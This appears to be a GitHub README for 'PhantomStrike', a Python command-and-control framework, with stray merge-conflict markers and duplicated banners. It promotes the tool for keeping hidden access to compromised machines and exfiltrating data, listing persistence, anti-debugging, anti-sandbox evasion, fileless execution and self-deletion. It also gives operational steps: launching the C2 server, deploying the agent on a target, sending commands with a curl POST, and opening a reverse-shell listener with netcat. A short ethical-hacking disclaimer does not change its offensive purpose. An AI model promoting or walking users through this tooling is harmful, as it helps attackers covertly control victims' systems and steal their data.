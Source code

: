 <<<<<<< HEAD

PhantomStrike - Stealth C2 Framework


---

██████╗ ██╗  ██╗ █████╗ ███╗   ███╗████████╗ ██████╗ ███████╗
██╔══██╗██║  ██║██╔══██╗████╗ ████║╚══██╔══╝██╔═══██╗██╔════╝
██████╔╝███████║███████║██╔████╔██║   ██║   ██║   ██║███████╗
██╔═══╝ ██╔══██║██╔══██║██║╚██╔╝██║   ██║   ██║   ██║╚════██║
██║     ██║  ██║██║  ██║██║ ╚═╝ ██║   ██║   ╚██████╔╝███████║
╚═╝     ╚═╝  ╚═╝╚═╝  ╚═╝╚═╝     ╚═╝   ╚═╝    ╚═════╝ ╚══════╝

>>>>>>> cb039823b25ec3484ad5c066e8ba90cd8945d745
PhantomStrike - Stealth C2 Framework

██████╗ ██╗  ██╗ █████╗ ███╗   ███╗ ████████╗ ███████╗
██╔══██╗██║  ██║██╔══██╗████╗ ████║ ╚══██╔══╝ ██╔════╝
██████╔╝███████║███████║██╔████╔██║    ██║    █████╗
██╔═══╝ ██╔══██║██╔══██║██║╚██╔╝██║    ██║    ██╔══╝
██║     ██║  ██║██║  ██║██║ ╚═╝ ██║    ██║    ███████╗
╚═╝     ╚═╝  ╚═╝╚═╝  ╚═╝╚═╝     ╚═╝    ╚═╝    ╚══════╝

PhantomStrike - Stealth C2 Framework 🚀

PhantomStrike is an advanced post-exploitation framework designed to provide stealth, persistence, privilege escalation, and remote control capabilities. It helps to maintain full access to compromised machines and exfiltrate valuable data while evading detection.


---
![GitHub last commit](https://img.shields.io/github/last-commit/Akkaiaj/PhantomStrike)
![GitHub issues](https://img.shields.io/github/issues/Akkaiaj/PhantomStrike)
![GitHub stars](https://img.shields.io/github/stars/Akkaiaj/PhantomStrike)
![GitHub license](https://img.shields.io/github/license/Akkaiaj/PhantomStrike)





Features 🔧

AES Encryption: Secure all communications between the agent and the C2 server.

Stealth Mode: Ensures no execution traces are left behind.

Anti-Debugging: Detects debuggers and terminates itself to prevent analysis.

Reverse Shell: Gain full control of the target system remotely.

Fileless Execution: Executes payloads entirely in memory, leaving no traces on the disk.

Self-Delete: The agent deletes itself after execution to prevent detection.

Persistence Mode: Ensures that access is maintained even after system reboots.

Command Execution: Run arbitrary shell commands on the compromised machine.

Reverse Shell Connection: Establish an interactive reverse shell with the target.



---

Installation 📌

1️⃣ Clone the Repository:

git clone https://github.com/Akkaiaj/PhantomStrike.git
cd PhantomStrike

2️⃣ Install Dependencies:

Ensure that you have all required libraries installed:

pip install -r requirements.txt


---

Usage 🚀

1️⃣ Start the C2 Server (Attacker Machine)

Run the following command to start the PhantomStrike C2 server on your machine:

python3 phantom_c2.py

📌 This command will launch the Flask-based C2 server and start listening for incoming agent connections.


---

2️⃣ Deploy the Agent (Target Machine)

To deploy the agent on a compromised system, simply run:

python3 phantom_agent.py

📌 This will:

Connect the agent to the C2 server.

Execute commands sent from the C2 server.

Open a reverse shell for remote control.



---

Command & Control 🛠️

1️⃣ Sending Commands to the Agent

From the C2 server, you can send commands to the connected agent by sending a POST request:

curl -X POST http://your-server-ip:5000/command -H "Content-Type: application/json" -d '{"command": "whoami"}'

📌 The agent will execute the given command and send the results back to the C2 server.


---

2️⃣ Reverse Shell Usage 🔥

Once the agent is connected, establish a reverse shell by running:

nc -lvnp 4444

📌 This will give you full control over the target system.


---

Evasion & Persistence 🕵️‍♂️

Anti-Debugging: PhantomStrike detects when debuggers are present and terminates to avoid analysis.

Self-Delete: The agent cleans up after execution, leaving no traces on the disk.

Persistence Mode: PhantomStrike can be configured to run automatically after system reboots, ensuring continuous access.



---

Defensive Measures 🛡️

AES Encryption: All communication between the agent and C2 server is encrypted to avoid detection.

Evasion: The tool implements polymorphic obfuscation to make the payload harder to detect by sandboxing or monitoring tools.

Anti-Sandbox: PhantomStrike bypasses common sandbox detection mechanisms.



---

Donations 💰

If you find PhantomStrike useful, consider supporting the project to help fund its continuous development:


*buy me a coffe 

BTC: bc1q0ruwrc4gs465xvu6tcn24h62pclt96sh2yv8pq

ETH: 0x69B6F3aA9F470d4cBD93CDC4c0A887C0787CEf9B

SOL: Gk6CmvvS6fi1Nfnu7QEEneshbLkmaE5Ue8sBzxz91D3q


---

License 📜

PhantomStrike is open-source software and licensed under the MIT License. By using this tool, you agree to the terms of this license.


---

⚠️ Disclaimer

This tool is intended for educational purposes and ethical hacking only. Any unauthorized use of this tool against systems without consent is illegal and unethical. Please ensure you have permission to use this tool before deploying it.


---

